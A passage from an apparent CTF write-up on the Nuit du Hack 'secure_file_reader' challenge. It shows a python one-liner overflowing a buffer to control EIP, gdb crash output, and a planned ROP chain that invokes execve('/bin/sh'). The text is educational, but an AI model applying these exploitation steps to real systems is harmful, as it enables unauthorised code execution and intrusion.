 We control `eip`! 4128 bytes are needed to overwrite it:
{% highlight shell-session %}
$ python2 -c 'print "A"*4124 + "BBBB"' > fifo

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x25 ('%')
EBX: 0x80481b0 (<_init>:	push   ebx)
ECX: 0x80ef4d4 --> 0x0 
EDX: 0x25 ('%')
ESI: 0x0 
EDI: 0x80ee00c --> 0x8067e60 (<__stpcpy_sse2>:	mov    edx,DWORD PTR [esp+0x4])
EBP: 0x41414141 ('AAAA')
ESP: 0xffbece60 --> 0xffbed000 --> 0x3 
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffbece60 --> 0xffbed000 --> 0x3 
0004| 0xffbece64 --> 0xffbecf04 --> 0xffbed0c7 ("/home/abe/ctf/ndh/secure_file_reader/pwn")
0008| 0xffbece68 --> 0xffbecf10 --> 0xffbed0f5 ("XDG_VTNR=1")
0012| 0xffbece6c --> 0x80481b0 (<_init>:	push   ebx)
0016| 0xffbece70 --> 0x0 
0020| 0xffbece74 --> 0x80ee00c --> 0x8067e60 (<__stpcpy_sse2>:	mov    edx,DWORD PTR [esp+0x4])
0024| 0xffbece78 --> 0x8049710 (<__libc_csu_fini>:	push   ebx)
0028| 0xffbece7c --> 0x804915a (<__libc_start_main+458>:	mov    DWORD PTR [esp],eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$
{% endhighlight %}

# Exploitation

ret2libc is not possible because the functions `system` and `exec`, and the
libc is not linked with it (remember that the binary is statically linked). We
will have to do a ROP chain. [`ROPgadget`][ropgadget] is a good tool to find
ROP gadgets in binaries. The different kind of ROP chain could be built, such
as executing the [`mprotect`][mprotect] [`syscall`][syscall] to remove NX and
then jump on a shellcode on the stack. By looking at the only gadget with `int
0x80` to trigger the syscall, we can see that it doesn't end with a return.
Therefore we only can execute one syscall and that's it. The only one feasible
is [`execve`][execve] to pop a shell. As syscalls are fastcall, argument must
be supplied in registers:

* `eax`: syscall number => `11`
* `ebx`: pointer to `/bin/sh` => need to find one
* `ecx`: pointer to `argv[]` => useless, put `0`
* `edx`: pointer to `envp[]` => useless, put `0`


[ndh]: https://quals.nuitduhack.com/
[stat]: http://man7.org/linux/man-pages/man2/stat.2.html
[ropgadget]: https://github.com/JonathanSalwan/ROPgadget
[mprotect]: http://man7.org/linux/man-pages/man2/mprotect.2.html
[syscall]: http://man7.org/linux/man-pages/man2/syscall.2.html
[execve]: http://man7.org/linux/man-pages/man2/execve.2.html
